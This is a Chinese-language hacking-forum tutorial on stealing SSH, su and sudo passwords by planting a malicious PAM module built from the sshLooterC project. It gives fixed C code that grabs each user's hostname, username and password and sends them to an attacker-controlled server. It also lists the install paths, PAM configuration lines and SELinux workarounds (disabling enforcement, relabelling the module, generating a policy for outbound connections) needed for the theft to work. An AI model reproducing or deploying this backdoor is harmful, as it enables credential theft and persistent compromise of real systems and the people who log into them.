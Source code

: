 # 0x00 前言

使用strace来获取ssh密码的方法并不是100％有效的，因为strace的输出在不同linux发行版上会发生变化，需要有针对性的写匹配规则，于是乎就找到了另一种方法PAM劫持SSH密码。参考链接在最后。

本文所说介绍的技术也不是什么新技术，更多是一个脚本小子踩坑的过程。已经掌握的大佬们可以一笑而过。

# 0x10 使用说明

### 0x11 编译

下载sshLooterC项目： https://github.com/mthbernardes/sshLooterC

编译时需要安装依赖。 Centos7：

`yum -y install curl-devel pam-devel`

Ubuntu16：

`sudo apt-get install -y libcurl4-openssl-dev libpam0g-dev`

源项目代码里有一些Bug，需要修改一下。

```c
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
  int retval;
  const char* username;
  const char* password;
  char message[1024];
  char hostname[128];
  retval = pam_get_user(pamh, &username, "Username: ");
  //该无法正常获得密码
  pam_get_item(pamh, PAM_AUTHTOK, (void *) &password);
  if (retval != PAM_SUCCESS) {
    return retval;
  }
  gethostname(hostname, sizeof hostname);
  snprintf(message,2048,"Hostname: %s\nUsername %s\nPassword: %s\n",hostname,username,password);
  sendMessage(&message);
  return PAM_SUCCESS;
}
```

修改为一下代码：

```c
//添加函数声明
int pam_get_authtok(pam_handle_t *pamh, int item, const char **authtok, const char *prompt);

PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
  int retval;
  const char* username = NULL;
  const char* password = NULL;
  const char* prompt = NULL;
  char message[1024];
  char hostname[128];
  retval = pam_get_user(pamh, &username, "Username: ");
  //获得密码
  pam_get_authtok(pamh, PAM_AUTHTOK, &password, prompt);
  if (retval != PAM_SUCCESS) {
    return retval;
  }
  gethostname(hostname, sizeof hostname);
  snprintf(message,2048,"Hostname: %s\nUsername: %s\nPassword: %s\n",hostname,username,password);
  sendMessage(&message);
  return PAM_SUCCESS;
}
```

当然，由于本土特色，正常是无法访问telegram的，所以需要自定义一下服务端。

![](./img/62.png)  

使用make编译，生成looter.so即可，该so文件ubuntu和centos上是通用的。

### 0x12 配置

##### Ubuntu16

将looter.so存放到`/lib/x86_64-linux-gnu/security/`目录下。 修改`/etc/pam.d/common-auth`文件，将`auth optional looter.so`添加到**文件末尾**。如果不添加到文件末尾的话，你就会发现你的SSH能成功登录，但是图形界面就登不进去了，即使密码正确 :( 。配置结果如图：

![](./img/63.png)  

##### Centos7

将looter.so存放到`/usr/lib64/security/`目录下。 需要同时修改`/etc/pam.d/password-auth`和`/etc/pam.d/system-auth`，将`auth optional looter.so`添加到**文件开头**。 然后非常关键的一步操作（做实验时，不知道有SELinux这个机制，差点又自闭了）：

```shell
#临时设置SELinux成为permissive模式，重启后失效
setenforce 0

#显示SELinux的当前模式
getenforce

#或者修改/etc/selinux/config，永久生效，需要重启机器
SELINUX=disabled
```

这时可能会有小伙伴来问了，怎么不关闭SElinux，成(zi)功(ji)劫(zhe)持(teng)呢？ 我早就猜到会有小伙伴这样问了（不，只有我会？？？）

**解决方法：** 修改looter.so的SELinux上下文，将文件类型修改为lib_t（so文件类型限制）。

```shell
chcon -t lib_t /usr/lib64/security/looter.so

#顺带一提，查看文件类型的命令
ls -Z /usr/lib64/security/looter.so
```

从以下命令列出来的端口中，选择一个作为服务端的通信端口(端口安全限制)，我这里选择了25151端口。

`semanage port -l`

生成本地策略模块以允许sshd name_connect 访问 port 25151 tcp_socket（通信策略限制）。

```shell
ausearch -c 'sshd' --raw | audit2allow -M my-sshd
semodule -i my-sshd.pp
```

对SELinux安全机制感兴趣的，推荐给你们一个用户指南： https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security-enhanced_linux/index

### 0x13 劫持

最终效果如图： 不止ssh登录时会被记录密码，su、sudo等命令都是可以记录的。

![](./img/64.png)  

# 0x20 结语

解决错误的小技巧（避免自闭的小技巧？？？）：

1. 无法在Centos成功执行的时候，可使用strace劫持sshd进程，查看报错信息，可以定位到一部分问题。

![](./img/65.png)  

2.  感谢SELinux警报浏览器，成功拯救了一个即将自闭的少年（能把报错详细信息和处理建议写出来，真的是太让人感动了）。

![](./img/66.png)  

# 参考链接

1. https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html
2. https://github.com/mthbernardes/sshLooter
3. https://github.com/mthbernardes/sshLooterC

# 更新信息

| 修订时间   | 修订人   | 简述     |
| :--------- | :------- | :------- |
| 2020.05.01 | 3t2ugg1e | 创建文章 |

注: 文章来自土司：https://www.t00ls.net/thread-56235-1-1.html 欢迎大家投稿注册发言。